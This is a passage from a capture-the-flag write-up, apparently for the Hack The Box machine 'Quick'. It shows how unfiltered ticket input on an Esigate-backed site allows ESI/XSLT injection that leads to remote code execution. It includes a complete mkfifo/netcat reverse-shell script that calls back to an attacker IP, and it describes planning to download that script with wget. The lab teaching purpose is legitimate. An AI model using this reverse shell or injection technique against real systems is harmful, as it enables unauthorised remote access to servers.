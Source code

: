 In the **search.php** response, we can see that the web application uses **Esigate**. This allows the application to modify the content of the page using special ESI tags. 

![](/assets/images/htb-writeup-quick/image-20200425195918422.png)

There's a [blog post](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) that go over abusing specific implementations of ESI. In a nutshell, we can get RCE on the server by injecting XML Stylesheet Language Transformations (XSLT). The input on the ticket creation page is totally unfiltered so we can add ESI tags and they will be reflected back.

A quick test shows that we can get a ping back to our webserver by using the following tag:

![](/assets/images/htb-writeup-quick/image-20200425201134062.png)

![](/assets/images/htb-writeup-quick/image-20200425201200365.png)

To get a shell on the server, I'll first create a **shell.sh** script that will execute a typical reverse shell payload:

```bash
#!/bin/bash
rm /tmp/yolo;mkfifo /tmp/yolo;cat /tmp/yolo|/bin/sh -i 2>&1|nc 10.10.14.10 443 >/tmp/yolo
```

By using the example in the blog post, I created the first XSLT file with the following payload to download my shell script  with **wget**.
